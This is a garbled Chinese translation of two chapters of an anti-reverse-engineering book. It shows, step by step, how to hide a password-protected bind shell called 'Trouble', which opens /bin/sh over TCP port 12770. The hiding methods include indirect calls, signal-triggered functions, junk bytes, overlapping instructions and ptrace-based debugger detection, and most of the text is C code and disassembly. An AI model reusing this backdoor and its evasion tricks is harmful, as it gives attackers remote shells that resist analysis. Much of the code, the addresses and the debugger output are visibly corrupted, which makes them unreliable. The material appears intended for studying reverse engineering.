不错。但也许你可以通过缺失存储在 `indirect_call` 中的地址来移除 `check_password()` 的数据交叉引用。稍微修改 `main()` 顶部的赋值。

```c
indirect_call = check_password - 0x100;
```

我们必须在调用 `check_password()` 之前调整函数指针。

调整 `indirect_call()` 中的地址

```c
indirect_call = indirect_call + 0x100;

if ((*indirect_call)(password_input))
{
    close(client_sock);
    return EXIT_FAILURE;
}
```

如果你重新编译 `Trouble` 并将其放入 `IDA`，你应该看到这个。

## 第 5 章：阻塞代码流分析

不再有对 `check_password()` 的引用

```assembly
.text:0000000000000430 public check_password

.text:0000000000000430 check_password proc near

.text:0000000000000430

.text:0000000000000430 var_38 = xmmword ptr -38h

.text:0000000000000430 var_28 = xmmword ptr -28h

.text:0000000000000430 var_18 = byte ptr -18h

.text:0000000000000430 var_10 = qword ptr -10h
```

很不错。没有交叉引用！你仅用四行代码就删除了所有对 `check_password()` 的引用。

## 信号

另一种代码流混淆技术是使用信号⁴⁶。信号是一种可以改变程序执行流的 IPC（进程间通信）机制。如果你用过终端，你几乎一定熟悉信号。例如，当你使用 "`Ctrl-C`" 终止程序时，你实际上发送了 `SIGINT` 信号。有很多信号，你可以通过查看信号的 man页（帮助页）⁷找到它们。

使用函数 `sigaction`⁸，你可以注册一个函数来处理特定的信号。例如，如果你注册了一个函数来处理 `SIGINT`，并在程序运行时按了 "`Ctrl-C`" ，那么你的函数将被调用，而不是终止程序。这非常有用，对吧？你还可以使用 `kill`⁹ 函数向程序发送信号。这有什么用呢？与其直接调用函数，不如通过 `sigaction()` 注册该函数，并在每次想要调用该函数时用 `kill()` 生成一个信号。

例如，考虑下面这个版本的 `Trouble` bind shell。

> ⁴⁶https://en.wikipedia.org/wiki/Unix_signal
> ⁷man 7 signal
> ⁸man sigaction
> ⁹man 2 kill

## 通过 SIGUSR1 调用 spawn_shell()

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>
#include <string.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include "xor_string.h"
```

```c
bool check_password(const char* p_password)
{
    char pass[password_size] = {};
    XOR_STRING31(pass, password, 0xaa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```

```c
void spawn_shell()
{
    char* empty[] = { NULL };
    char binsh[] = '/', '/', 'b', 'i', 'n', 'h', '/', 's', 'h', 0 };
    execve(binsh, empty, empty);
}
```

> /**
 * 这实现了一个相当简单的 bind shell。服务器在允许访问 shell
 * 之前首先要求输入密码。密码目前在每次运行 `cmake ..` 时
 * 随机生成。服务器没有关闭机制，因此它将一直运行
 直到被杀死。
 * /

```c
int main(int p_argc, char* p_argv[])
{
    (void)p_argc;
    (void)p_argv;
    struct sigaction sVal;
    sval.sa_flags = SA_SIGINFO;
    sval.sa_sigaction = spawn_shell;
    sigaction(SIGUSR1, &sval, NULL);
```

```c
int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (sock == -1)
{
    fprintf(stderr, "Failed to create the socket.");
    return EXIT_FAILURE;
}
```

```c
struct sockaddr_in bind_addr = {};
bind_addr.sin_family = AF_INET;
bind_addr.sin_s_addr = htonl(INADDR_ANY);
bind_addr.sin_port = htons(12770);
```

```c
int bind_result = bind(sock, (struct sockaddr*) &bind_addr, sizeof(bind_addr));
if (bind_result != 0)
{
    perror("Bind call failed");
    return EXIT_FAILURE;
}
```

```c
int listen_result = listen(sock, 5);
if (listen_result != 0)
{
    perror("Listen call failed");
    return EXIT_FAILURE;
}
```

```c
while (true)
{
    int client_sock = accept(sock, NULL, NULL);
    if (client_sock < 0)
    {
        perror("Accept call failed");
        return EXIT_FAILURE;
    }
    int child_pid = fork();
    if (child_pid == 0)
    {
        // 读取密码
        char password_input[password_size] = {};
        int read_result = read(client_sock, password_input, password_size - 1);
        if (read_result < (int)(password_size - 1))
        {
            close(client_sock);
            return EXIT_FAILURE;
        }
        if (check_password(password_input))
        {
            close(client_sock);
            return EXIT_FAILURE;
        }
        dup2(client_sock, 0);
        dup2(client_sock, 1);
        dup2(client_sock, 2);
        kill(getpid(), SIGUSR1);
        close(client_sock);
        return EXIT_SUCCESS;
    }
    close(client_sock);
}
```


在上面的代码中，我引入了一个名为 `spawn_shell()` 的函数，它包含了执行 `"/bin/sh"` 的逻辑。注意看它并没有直接调用 `spawn_shell()`，而是通过： `kill(getpid(), SIGUSR1);`。当 Trouble 接收到 `SIGUSR1` 信号时，会执行 `spawn_shell()`。这使得静态分析变得更加困难，因为强制逆向工程师去追踪所有的 `sigaction()` 调用以确定哪个函数被调用了。相反，逆向工程师只会看到这个：

### 通过 kill() 调用 spawn_shell()

| 指令 | 操作数 |
| :--- | :--- | :--- |
| .text:00000000000402A4 | call | check_password |
| .text:00000000000402A9 | test | al, al |
| .text:00000000000402AB | jnz | short loc_402ED |
| .text:00000000000402AD | xor | esi, esi |
| .text:00000000000402AF | mov | edi, ebx |
| .text:00000000000402B0 | call | dup2 |
| .text:00000000000402B6 | mov | esi, 1 |
| .text:00000000000402BB | mov | edi, ebx |
| .text:00000000000402BD | call | dup2 |
| .text:00000000000400C2 | mov | esi, 2 |
| .text:00000000000400C7 | mov | edi, ebx |
| .text:00000000000400C9 | call | dup2 |
| .text:00000000000400CE | call | getpid |
| .text:00000000000400D3 | mov | esi, 0Ah |
| .text:00000000000400D8 | mov | edi, eax |
| .text:00000000000400DA | call | kill |
| .text:00000000000400DF | mov | edi, ebx |
| .text:00000000000402E1 | call | close |
| .text:00000000000400E6 | xor | eax, eax |

## 早期返回 (Early Return)

另一种隐藏 *Trouble* 逻辑的方法是欺骗反汇编器退出 `check_password()` 函数。实现这种方法的方法是将地址推入栈并立即返回。这将导致程序返回到栈上的地址。实际上，malwinator.com⁵⁰ 上有一关于这种技术的非常好的文章，但我们也会创建一个示例。

为了使用早期返回技术，你将在 `check_password()` 中创建一个标签，并使用内联汇编将标签的地址推入栈。更新后的 `check_password()` 如下：

> ⁵⁰https://www.malwinator.com/2015/11/27/anti-disassembly-techniques-used-by-malware-a-primer-part-2/

### 返回到 check_password() 的中间

```c
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    asm volatile(
        "push %0\n"
        "ret\n"
        :
        : "g"(&return_here)
    );
    return_here:
    XOR_STRING31(pass, password, 0xaa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```

这里有两个有趣的地方：1. 我在函数声明中引入了 `optimize` 属性。这将该函数的优化级别保持在 "O1"。我这样做是因为更高级别的优化似乎会移动位置，并通常会破坏程序。2. 我使用了 GCC 扩展来获取 "return_here:" 标签的地址。

如果你反汇编这段代码，你会很快发现没有任何被混淆。

## 混淆失败

```assembly
.text:0000000000040740      push rbx
.text:0000000000040741      sub rsp, 30h
.text:0000000000040745      mov rbx, rdi
.text:0000000000040748      mov rax, fs:28h
.text:0000000000040751      mov     [rsp+38h+var_10], rax
.text:0000000000040756      xor eax, eax
.text:0000000000040758      mov byte [rsp+38h+var_18], 0
.text:000000000004075d      push offset loc_400763
.text:0000000000040762      retn
------------------------------------------------------------
.text:0000000000040763      ; 
.text:0000000000040763      ; CODE XREF: check_password+22
.text:0000000000040763  loc_400763:
```

## 第5章：阻碍代码流分析

```assembly
.text 0000000000400763      ; DATA XREF: check_password+1D
.text 0000000000400763      mov [rsp+38h+var_19], @D2h
.text 0000000000400768      mov [rsp+38h+var_1A], 9Ah
```

正如你在前面的节中看到的，IDA 跟踪了 *check_password* 推送到栈顶上的地址。你需要以某种方式混淆或计算标签的地址，以防止反汇器跟踪该逻辑。如下：

### 混淆返回地址

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x400000;
}
```

```c
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    char* label_address = calc_addr((char*)&return_here) - 0x400000;
    asm volatile(
        "push %0\n"
        "ret\n"
        :
        "g"(label_address)
    );
    return_here:
    XOR_STRING31(pass, password, 0xaa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```

你可以看到，我所做的只是在标签地址上加减了 `0x400000`。然而，反汇编的结果更符合我的口味。

## 第5章：阻碍代码流分析

### check_password() 中的早期返回隐藏了代码

```bash
albino-lobster@ubuntu:~/antire-book/chap_5_code_flow/dontpanic/build$ radare2 ./trouble/trouble
Warning: Cannot initialize dynamic strings
-- 哇，我的猫对 radare2 热点比我我还熟！
```
```
@0x004003c> aaa
[x] Analyze all flags setting sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use-AA to perform additional experimental analysis.
[x] Constructing a function name for fn.* and sym.func.* functions (aan)
@0x004003c> pdf @ sym.check_password
| (f) sym.check_password 43
| sym.check_password ();
  | var int local_20h @ rsp+0x20
  | var int local_28h @ rsp+0x28
  | CALL XREF from 0x0040026d (unk)
  0x00400750 53 push rbx
  0x00400751 4883ec30 sub rsp, 0x30 ; '0'
  0x00400755 4889fb mov rdx, rdi
  0x00400758 6448b0d42528 mov rax, qword fs:[0x28] ; [0x28:8]=0x4740 ; '('
  0x00400761 4889424248 mov qword [rsp + local_28h], ra
  0x00400766 31c00 xor eax, eax
  0x00400768 c644242000 mov byte [rsp + local_20h], 0
  0x0040076d 48c7c7b0700 mov rdi, 0x77b
  0x00400774 e8c7ffffffff call sym.calc_addr
  0x00400779 50 push rax
  0x0040077a c3 ret
@0x004003c> 
```

非常酷对吧？但在你过度兴奋之前，仍然存在问题。在图形视图中，IDA 看起来和 Radare2 相似。但在文本视图中，你可以看到 IDA 仍在反汇编你试图隐藏的代码。

## 第5章：阻碍代码流分析

### IDA 继续反汇 check_password()

```assembly
.text:000000000400750        public check_password
.text:000000000400750 check_password  proc near      ; CODE XREF: main+13D
.text:000000000400750                    = byte ptr -18h
.text:000000000400750        var_18             = byte ptr -18h
.text:000000000400750        var_10             = qword ptr -10h
.text:000000000400750                    push rbx
.text:000000000400750                    sub rsp, 0x30
.text:000000000400750                    mov rdi, rbx
.text:000000000400750                    mov rax, fs:28h
.text:000000000400751                    mov [rsp+38h+var_10], ra
.text:000000000400751                    xor eax, eax
.text:000000000400755                    mov [rsp+38h+var_18], 0
.text:000000000400755                    mov rdi, 7Bh
.text:000000000400758                    call calc_addr
.text:000000000400761                    push rax
.text:000000000400766                    ret
.text:00000000040077A check_password  end; analysis failed
.text:00000000040077B                    
.text:00000000040077B                    mov byte [rsp+1F], 0Dh
.text:000000000400780                    mov byte [rsp+Eh], 9Ah
```

注意 IDA 如何继续反汇 `0x4007BB`。它标记这段代码没有引用，但仍在继续。IDA 必须在函数完成后继续。但是，如果我们使用 `.string` 指令插入数据呢？

## 第5章：阻碍代码流分析

### 插入伪代码以阻止 IDA 的反汇编

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x400000;
}
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    char* label_address = calc_addr((char*)&return_here) - 0x400000;
    asm volatile(
        "push %0\n"
        "ret\n"
        : 
        :.string "\x72\x73\x74\x75\x76\x78\x79\x7a\x7b\x7d\x7e\x7f"
        : "g"(label_address));
```

return_here:

XOR_STRING31(pass, password, 0xaa);

// 验证密码

```c
return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
```

如果你查看反汇编，你会发现 IDA 没有反汇编 `check_password()` 的大部分部分。

### 最后中断 check_password() 的分析

```assembly
.text:00000000000040750 public check_password
.text:00000000000040750 check_password proc near ; CODE XREF:main+13D
.text:00000000000040750
.text:00000000000040750 var_18 = byte ptr -18h
.text:00000000000040750 var_10 = qword ptr -10h
.text:00000000000040750
.text:00000000000040750 push    rbx
.text:00000000000040751 sub     rsp, 30h
.text:00000000000040755 mov    rdi
.text:00000000000040758 mov    rax, fs:28h
.text:00000000000040761 mov    [rsp+38h+var_10], rax
.text:00000000000040766 xor    eax, eax
```

## 第5章：抽象代码流分析


```assembly
.text:00000000000400768 mov [rsp+38h-var_18], 0
.text:0000000000040076D mov rdi, 787h
.text:00000000000400774 call calc_addr
.text:00000000000400779 push rax
.text:000000000004007A ret
.text:000000000004007A check_password  end; analysis failed
.text:000000000004007B db 72h, 73h, 74h, 75h, 76h, 1E24446D21F244446E1D24C6A9
.text:0000000000040070 db = 01E244C9D1C2F4,2444C6D01A2C66, 06ED1824C6E19
.text:0000000000040080 db 16244C6D01E24C, 2444C6D01A2C66, 921234C9123444
.text:0000000000040080 db 24446C1244C, 44CF6C52DA4C61, 02E446E3B0F244
.text:0000000000040080 db 44C6902D0B249C, 06B0469E6C24, 44CF6E8A24C66
.text:0000000000040080 db 06EE0E824C69D09, 62446F07244C, 44CF6B305244B
.text:0000000000040080 db 02F32446C0424, 244CFFD224C66, 0AABAE0240C6501
.text:0000000000040080 db 68E8C679B48, 0FFFF08D0E78948, 0DE8948000002B
.text:0000000000040080 db 20E2E8B0740000, 4C8B4C0950FC785, 28250C33486428
.text:0000000000040086 ;
.text:0000000000040088 add rsp, 30h
.text:000000000004008C pop rbx
.text:000000000004008D ret
```

## 跳过无效字节

在上一节中，你通过反汇编 `check_password()` 的大部分看到了 IDA 和 Radare2。然而，一眼代码就能明显看出值 `"0x787"` 被传递了 `calc_addr()`，并且你正在使用 `"ret"` 跳转到 `calc_addr()` 返回的地址。隐藏这种信息的一种方法是 Silvio Cesare 在 1999 年的文章《Linux 调试技术（欺骗调试器）》¹中描述的一种技术。

首先，让我们看看 `check_password()` 在 GDB 中什么样子。

¹http://vxheaven.org/lib/vsc04.html

```bash
albino-lobster@ubuntu:/antire_book/chap_5_code_flow/dontpanic/build gdb ./trouble/trou

GNU gdb (Ubuntu 7.11.1~ubuntu-16.04) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://www.gnu.org/licenses/gpl.html>
这是自由软件：你可以修改并重新发行它在法律允许范围内。输入 "show copying" 和 "show warranty" 查看详情。

此 GDB 配置为 `x86_64-linux-gnu`。输入 "show configuration" 查看配置详情。
有关错误报告说明，请参见：
<http://www.gnu.org/software/gdb/.
读取符号 ./trouble...（无调试符号）
查找 GDB 手册或其他文档资源请访问：
<http://www.gnu.org/software/gdb/>
如需帮助，输入 "help"。
输入 "apropos word" 搜索与 "word" 相关的命令。
(gdb) dissembles assembly from 0x000000040750 to 0x00000004077b:

```

0x000000040750 check_password+:    push   %rsp

0x000000040751 check_password+=1:   sub    $0x30,%rsp

0x000000040755 check_password+=5:    mov    %rdi,rbx

0x000000040758 check_password+=9:    mov    %fs:0x28,rax

0x000000040761 check_password+=17:   mov    %rax,0x28(%rsp)

0x000000040766 check_password+=22:   xor    %eax,eax

0x000000040768 check_password+=24:   movb   $0x0,20(%rsp)

0x00000004076d check_password+=29:   mov    $0x787,%rdi

0x000000040774 check_password+=36:   callq  0x400740 <calc_addr>

0x000000040779 check_password+=41:   push   %rax

0x00000004077a check_password+=42:   retq

```

End of assembler dump.
(gdb)
```

# 第 5 章：阻碍代码流分析

## 在 `check_password()` 中添加一个无效字节以破坏 GDB

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x040000;
}
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    char* label_address = 0;
}
asm volatile(
    "jmp unaligned\n"
    ".short 0xe8\n"
    "unaligned;\n"
);
label_address = calc_addr((char*)&return_here) - 0x040000;
asm volatile(
    "push %0\n"
    "ret\n"
    ".string \x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\""
    : "g"(label_address)
);
return_here:
XOR_STRING31(pass, password, 0xaa);
// 校验密码
return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
```

你应该会注意到有一个新的 asm 块，它包含一个到新标签 (`unaligned`) 的跳转。这个新 asm 块做的只是跳过了插入到函数中间的数值 `"0xe8"`。然而，再次在 GDB 中查看它。

```gdb
(gdb) disas 0x400750,0x40077f
Dump of assembler code from <password>:

```

0x0000000000400750 <check_password+0>:  push    %rbx

$0x30,%rsp

0x0000000000400751 <check_password+1>:  sub     $0x,%rsp

0x0000000000400755 <check_password+5>:  mov     %rdi,%rax

0x0000000000400758 <check_password+8>:  mov     %fs:0x28,rax

0x0000000000400761 <check_password+17>: mov     %rax,0x28(%rsp)

0x0000000000400766 <check_password+22>: xor     %eax,%eax

0x0000000000400768 <check_password+24>: movb     $0x0,20(%rsp)

0x000000000040076d <check_password+29>: jmp     0x400771<check_password+33>

0x000000000040076f <check_password+31>: callq  0xfffffffc804f74

0x0000000000400774 <check_password+36>: mov     (%rdx),eax

0x0000000000400776 <check_password+38>: add     %al,%rax

0x0000000000400778 <check_password+40>: callq  0x400748<calc_addr>

0x000000000040077d <check_password+45>: push    %rax

0x000000000040077e <check_password+46>: retq

```

汇编导出结束。
(gdb)
```

如你所见，在 `0x40076d` 处存在一个指向 `0x400771` 的跳转。这恰好在 GDB 反汇编了五个字节为 `"callq 0xfffffffc804f74"` 之后。记住我们只插入了一个字节。看来 GDB 取了我们插入的那个无效字节，并与四个有效字节结合，创建了一个实际上并不存在的指令。对于逆向工程师来说，幸运的是，x64 由变长指令组成，因此具有“自愈”能力。反汇编在 `0x40077e` 处恢复了正常。

遗憾的是，这种技巧在 Radare2 或 IDA 上不起作用。以下是 IDA 的显示：

> https://www.malwinator.com/2015/11/22/anti-disassembly-used-in-malware-primer/

## 使用双跳转混淆代码的 `check_password()`

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x400000;
}
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    char* label_address = 0;
asm volatile(
    "jz unaligned+1\n"
    "jz unaligned+1\n"
    "unaligned:\n"
    ".byte 0xe8\n"
);
label_address = calc_addr((char*)return_here) - 0x400000;
asm volatile(
    "push %0\n"
    "ret\n"
    ".string \x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\""
    : "g"(label_address)
);
return_here:
XOR_STRING31(pass, password, 0xaa);
// 校验密码
return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```

现在看看 IDA 是如何处理的：

```assembly
.text:0000000000400750 public check_password
.text:0000000000400750 check_password ; XREF: .text:0000000000400750 main
.text:0000000000400750 push rbx
.text:0000000000400751 sub rsp,30h
.text:0000000000400755 mov rbx,rdi
.text:0000000000400758 mov rax, fs:28h
.text:0000000000400761 mov [rsp+28h], rax
.text:0000000000400766 xor eax, eax
.text:0000000000400768 byte [rsp+20h],
.text:000000000040076d jz short aligned+1
.text:000000000040076f jnz short aligned+1
.text:0000000000400771 unaligned ; XREF: .text:000000000040076d
.text:0000000000400771 call near 0xFFFFFF8D0CE
.text:0000000000400776 dw 7h
.text:0000000000400778 dq 06C35FFFFC2E80h, 79787765745372, 1F2444C0FE7Ah
.text:0000000000400778 dq 44C6F31E244CF9h, 931C244D1B24B6h, 244C6D01D24B6h
.text:0000000000400778 dq 0D91424C6E5B54h, 244C6CD1324C46h, 06CD211244C6F412h
.text:0000000000400778 dq 0F7A44C67012A446h, 44C6F0E2D324C46h, 0DBC2144C6FC0D4h
.text:0000000000400778 dq 244C4D0D244C0D46h, 00D92249C6B002C46h, 72444D7F72B4D44h
.text:0000000000400778 dq 44C6F0E62444C693h, 0C504244C6040524h, 244C67D97324C446h
.text:0000000000400778 dq 0C6F0124446902F, 0FFFFFAE3243304h, 0E7894000020B0Eh
.text:0000000000400778 dq 20BAFFFF3E30h, 0C7894D2948B00h, 0FC085900006938h
```

Wait, Radare2 的效果更糟。

# 第 5 章：阻碍代码流分析

参考 Michael Sikorski 和 Andrew Honig 编写的《实用恶意软件分析》（Practical Malware Analysis）。以下后的 `check_password()` 版本与《实用恶意软件分析》中解释的版本非常相似，不同之处是你使用 x64 编写，而且像往常一样，你实际上可以编译它。

`check_password()` 中的交叉指令。

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x400000;
}
```

```c
bool __attribute__((optimize("01"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    char* label_address = 0;
    asm volatile(
        "mov_ins:\n"
        "mov $2283, %%rax\n"
        "xor %%rax, %%rax\n"
        "jz mov_ins+3\n"
        "byte 0xe8\n"
        ":\n"
        ": %%%rax\n"
    );
    asm volatile(
        "xor %%rax, %%rax\n"
        "jz always_here + 1\n"
        "always_here:\n"
        ".byte 0xe8\n"
        ":\n"
        ": %%%rax\n"
    );
    asm volatile(
        "jz unaligned+1\n"
        "jnz unaligned+1\n"
        "unaligned:\n"
        ".byte 0xe8\n"
    );
    label_address = calc_addr((char*)&&return_here) - 0x400000;

    asm volatile(
        "push %%0\n"
        "ret\n"
        "string \\x72\x73\x74\x75\x76\x77\x78\x79\x74\x7b\x7c\x7d\x7e\x7f\"
        : :g"(label_address));

return_here:
    XOR_STRING31(pass, password, @xaa);

    // 验证密码
    return memcmp(undo_xor_string(pass, 32, @xaa), p_password, 32) != 0;
}
```

问题中涉及的新代码是第一个汇编块。

交叉代码块


```c
asm volatile(
    "mov_ins:\n"
    "mov $2283, %%rax\n"
    "xor %%rax, %%rax\n"
    "jz mov_ins+3\n"
    ".byte 0xe8\n"
    : :
    "%%rax");
);
```

这里到底发生了什么可能并不完全清楚，让我们来看看反汇编代码。

### IDA 中的交叉指令

```assembly
.text:0000000040076D mov_ins; ; CODE XREF: .text:000000004007777
.text:0000000040076D 48 C7 C0 EB 08 00 00 mov rax, 8Eh
.text:000000004007774 48 31 C0 xor rax, rax
.text:000000004007777 74 F7 jz short near ptr mov_ins+3
.text:000000004007779 E4 38 C1 0C 74 call near ptr 750038Ch6
.text:000000004007779 ;
.text:00000000400777E 01 db 1
```

从 `mov_ins` 标签代码块开始：

1. 将 `0xe8b` 移动 `rax`

2. 清空 `rax`

3. 跳转到 `mov_ins` 标签偏移三个字节

第三步是有趣的部分，因为 `mov_ins+3` 正好位于原始 `mov` 指令的中间。在 `mov_ins+3` 处有指令吗？为了测试是否如此，取消 `mov_ins` 开始处的代码定义，并将 `mov_ins+3` 标记为代码。IDA 会向你显示如下：

### 发现 mov_ins+3 处的有效代码

```assembly
.text:0000000040076D 48 mov_ins db 48h ; H
.text:0000000040076E C7 db 0C7h ; |
.text:0000000040076F 60 db 0C0h ; +
.text:00000000400770 ;
.text:00000000400776 08 08 jmp short loc_40077A
.text:00000000400770 22 db 0
.text:00000000400773 00 db 0
.text:00000000400774 48 db 48h ; H
.text:00000000400775 31 db 31h ; 1
.text:00000000400776 C0 db 0C0h ; +
.text:00000000400777 74 db 74h ; t
.text:00000000400778 F7 db 0Fh ; -
.text:00000000400779 78 db 0Eh ; F
.text:0000000040077A ...
.text:0000000040077A ;
```

```assembly
.text:0000000040077A loc_40077A: ; CODE XREF: .text:00000000400770
.text:0000000040077A 48 31 C0 xor rax, rax
.text:0000000040077D 74 01 jz short near ptr always_here+1
```

你可以看到在 `mov_ins+3` 处有一个有效跳转。该跳转跳过了汇编中定义的剩余代码，跳转到后续代码。就是这样！我们重用了 `mov` 指令中的字节来隐藏真实的跳转。

## 第 6 章：逃避调试器

在本章中，你将使用 `chap_debugger` 目录下的 `Trouble` 版本。此版本的 shell 使用了书中中学到的许多混淆技术。

### 跟踪我

在捕获像 `GDB` 这样的调试器之前，你需要知道它们是如何工作的。调试器的核心是 `ptrace` 系统调用。手册页说：

> `ptrace()` 提供了一种方法，允许一个进程（跟踪器）观察并控制另一个进程（目标）的执行，并更改其内存和寄存器。它主要用于断点调试和系统调用跟踪。

`ptrace` 的一个显著特点是一次只有一个跟踪器可以控制被跟踪者。这意味着如果 `GDB` 正在跟踪 `Trouble`，其他进程就无法跟踪 `Trouble`。这从反调试的角度来说非常有用，因为你可以通过调用 `ptrace()` 来判断是否有调试器附加。要尝试这一点，请更新 `Trouble` 的 `main()` 以检测跟踪。注意还需要添加 `#include <sys/ptrace.h>`。

### 通过 ptrace() 检测调试器

```c
int main(int p_argc, char* p_argv[]) {
    (void)p_argc;
    (void)p_argv;

    if (ptrace(PTRACE_TRACEME, 0, NULL, NULL) != 0) {
        fprintf(stderr, "Tracer detected!\n");
        exit(EXIT_FAILURE);
    }
}
```

如果你使用 `ptrace()` 代码重新编译 `Trouble` 并在 `GDB` 中运行，你会发现 `Trouble` 提前终止了。注意下面的 “Tracer detected!”

`Trouble` 在无法跟踪后提前退出。

```bash
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ gdb ./trouble/trouble
GNU gdb (Ubuntu 7.11.1-ubuntu16.04) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPL3+: GNU GPL version 3 or later http://www.gnu.org/licenses/gpl.html
This software is free: you are free to change and redistribute it.
法律允许范围内不提供担保。输入 "show copying" 查看详情。
此 GDB 配置为 "x86_64-linux-gnu"。
输入 "show configuration" 查看配置详情。
有关错误报告，请参：
http://www.gnu.org/software/gdb/bugs/.
在线查找 GDB 手册和其他文档资源：
http://www.gnu.org/software/gdb/documentation/.
需要*帮助*，输入 "help"。
输入 *apropos* 搜索与"word"相关的命令...
Reading symbols from ./trouble/trouble...(no debugging symbols found)...done.
(gdb)
Temporary breakpoint 1 at 0x4000130
Starting program: /home/albino-lobster/antire_book/chap_6_debugger/dontpanic/build/trouble/trouble
Tracer detected!
Inferior 1 (process 59897) exited with code 1
(gdb)
```

然而，如果你不带 `GDB` 运行 `Trouble`，它就能正常执行。这是为什么？你添加的新代码使用 `PTRACE_TRACEME` 调用了 `ptrace`。如果 `Trouble` 不是用 `GDB` 启动的，那么这个 `PTRACE_TRACEME` 将将父进程设置为跟踪者。在这种情况下，父程序是 `/bin/bash`。要确认这一点，运行 `Trouble` 并检查其 `/proc/<pid>/status` 文件。这是一个你应该看到的示例。

```
albino-lobster@ubuntu:-$ cat /proc/pid/status

```

Name:           trouble

State:          S (sleeping)

Tgid:           59935

Ngid:           0

Pid:            59935

PPid:           2402

TracerPid:      2402

```

上述最重要的两行是 “PPid” （父进程）和 “TracerPid”。这两者都显示为 2402。你可以通过使用 `ps` 命令确认那是 bash。

```bash

albino-lobster@ubuntu:-$ ps f

```
PID TTY      STAT TIME COMMAND
2835 pts/17 Ss       00:00 \_
59935 pts/1 R+       00:00  ps f
2402 pts/1 Ss       00:01 bash
59935 pts/1 S+       00:00 \_ ./trouble
```

## 第6 章：逃避调试器

由于另一个进程正在跟踪 `Trouble`，`gcore` 无法创建 core 文件

```
albino-lobster@ubuntu:~$ sudo gcore pidof trouble
Could not attach to process. If your amid matches the uid of the target
process, check the setting of /proc/sys/kernel/yama/ptrace_scope, or try
again as the root user. For more details, see /etc/sysctl.d/10-ptrace.conf
warning: process 60023 is already traced by process 2402
ptrace: Operation not permitted.
You can't do that without a process to debug.
The program is not running.
gcore: failed to create core.600233
```

注意 `gcore` 抱怨 `Trouble` 已经被进程 2402 跟踪了？

最后一个示例是 `strace` 工具。`strace` 列出了程序执行的所有系统调用。由于使用了 `ptrace`，`Trouble` 能够在不被检测的情况下检测它。

### 使用 PTRACE_TRACEME 检测跟踪

```
albino-lobster@ubuntu:~/antique_book/chap_6_debugger/dontpanic/build$ strace ./trouble\
/trouble
execve("../trouble/trouble", ["../trouble/trouble"], /* 64 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x604240) = 0
set_tid_address(0x604278) = 61493
ptrace(PTRACE_TRACEME, 0, NULL) = -1 EPERM (Operation not permitted)
write(2, ["", 0), ["Tracer detected!\n", 17]), 17
) = 17
exit_group(1) = 0
+++ exited with 1 +++
```

`PTRACE_TRACEME` 方法需要担心的一点是，你给了一个未知的进程（在本例中是 bash）对你的程序的完全控制权。谁知道 bash 是否能通过跟踪来跟踪 Trouble 呢？

## 捕获调试器

有不同的简单方法可以在不依赖 `ptrace()` 的情况下检测调试器。以下代码是 `Trouble` 的更新版本，使用了 `SIGTRAP` 信号。

### 使用 SIGTRAP 捕获调试器

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/ptrace.h>

#include "rc4.h"
#include "xor_string.h"
```

```c
extern void* check_password_size;
unsigned char check_password_key[128] __attribute__((section(".rc4_check_password"))) = \
{ 0 };
```

```c
char* calc_addr(char* p_addr)
{
    return p_addr + 0x400000;
}
```

```c
bool __attribute__((optimize("0", section(".check_password")))
check_password(const char* p_password)
{}
```

```c
char pass[password_size] = {};
char* label_address = volatile(
asm volatile(
    "mov $ins,\n"
    "mov $2283, %%rax\n"
    "xor %%rax, %%rax\n"
    "jz mov_ins+3\n"
    ".byte 0xe8\n"
    :
    : "%%rax"
)
asm volatile(
    "xor %%rax, %%rax\n")
```

```c
"jz always_here + 1\n"
"always_here:\n"
".byte 0xe8\n"
: :
"%rax");
```

```c
asm volatile(
"jz unaligned+1\n"
"jnz unaligned+1\n"
"unaligned:\n"
".byte 0xe8\n");
```

```c
label_address = calc_addr((char*)&return_here) - 0x040000;
```

```c
asm volatile(
"push %0\n"
"ret\n"
"string \x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
: 
"g(label_address));
```

return_here:

XOR_STRING31(pass, password, %0aa);

// 验证密码

return memcmp(undo_xor_string(pass, 32, %0aa), p_password, 32) != 0;

```

```c

void trap_handler() 

{

int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

if (sock == -1) {

  fprintf(stderr, "Failed to create the socket.");

  exit(EXIT_FAILURE);

}

}

```

```c

struct sockaddr_in bind_addr = {};

bind_addr.sin_family = AF_INET;

